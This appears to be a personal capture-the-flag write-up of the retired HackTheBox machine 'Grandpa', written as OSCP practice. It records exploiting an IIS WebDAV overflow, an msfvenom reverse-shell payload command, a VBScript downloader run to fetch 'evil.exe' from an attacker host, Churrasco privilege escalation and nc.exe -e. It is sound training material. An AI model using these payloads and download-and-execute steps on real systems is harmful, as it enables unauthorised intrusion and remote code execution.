 
Name: Grandpa
Date:  5/11/2022
Difficulty:  Easy
Goals:  OSCP Prep
Learnt:
- Old HTB boxes are weird
- I am sick weird old boxes  
- Need I pause too frantic
- XP go for vb script
- VM for Python2 feels bad before hand and then it feels great

## Recon

![ping](HackTheBox/Retired-Machines/Grandpa/Screenshots/ping.png)

[[CVE-2000-0114-http___10.129.95.233__vti_inf.html]] is 0 in severity, but 
[[CVE-2017-7269-http___10.129.95.233]] is critical RCE 9.5! for a buffer overflow, which there is a metasploit exploit for [https://www.exploit-db.com/exploits/41992](https://www.exploit-db.com/exploits/41992). There is also an 
[Explaination](https://www.exploit-db.com/exploits/8704) for a Remote Authenication Bypass allowing unrestricted listing downloading and uploading of files into password protected WebDAV folder. The 8806.pl did seem to work and neither did adding `%c0%af` into `curl`'s against `/images/` and  `/_Private/`. 

![](searchsploitoutput.png )

I tried for serval hours over multiple months for this box, but I do not have the time to let learning fall by the wayside. Returning to this knowing it require authenicated bypassing 

![](webdav.png)

## Exploit

Headturning I thought about making this a Helpthrough with IT security, but
[Explodingcan](https://github.com/danigargu/explodingcan) was an options I remember, as I though about following along I decide to be the most OSCP about this and do this entirely with the python2 exploit. I had already had that written above and found and was a option. Emotionally I was frantic and am still abit for various reasons of due to the [[Granny-Helped-Through]].

I wanted ot use do bothmeterpreter and the shell version and privilege escalation on windows XP does bananas time wise. But I have been burnt really hard for time and stressing about myself that its sort of me, but it is also these boxes. 
```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.109 LPORT=80 > shellcode-met
```

```bash 
Traceback (most recent call last):
  File "41738.py", line 43, in <module>
    data = sock.recv(80960)
socket.error: [Errno 104] Connection reset by peer
```
Apparently
*Connection reset by peer" is the TCP/IP equivalent of slamming the phone back on the hook. It's more polite than merely not replying, leaving one hanging. But it's not the FIN-ACK expected of the truly polite TCP/IP converseur."*

The hellscape of python:
https://python.readthedocs.io/en/v2.7.2/library/httplib.html is renameed to http.client, 

I got a shell on the box, but I know would I run into the same issues, but I got metasploit issues. I know the metasploit exploit works, just not the privesc. I will finish this later a bit more calmly.

## Foothold && PrivEsc   

![](wmpubperm.png)
[0xdf](https://0xdf.gitlab.io/2020/05/28/htb-grandpa.html) also struggled and used [Churrasco](https://github.com/Re4son/Churrasco/)

## Windows-File-transferVBS-script
XP and 2003 lifesaver, from the OSCP course
BEWARE: "If creating on Linux and then transfer to windows then you may face issue sometime, use unix2dos before you transfer it in this case." 
Hakluke.
```vb
# wget.bs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Run with:
```powershell
cscript wget.vbs http://attackerip/evil.exe evil.exe
```

![](churrasco.png)

I tried the same nc.exe -e, because I have also never actually done that from Windows

![](system.png)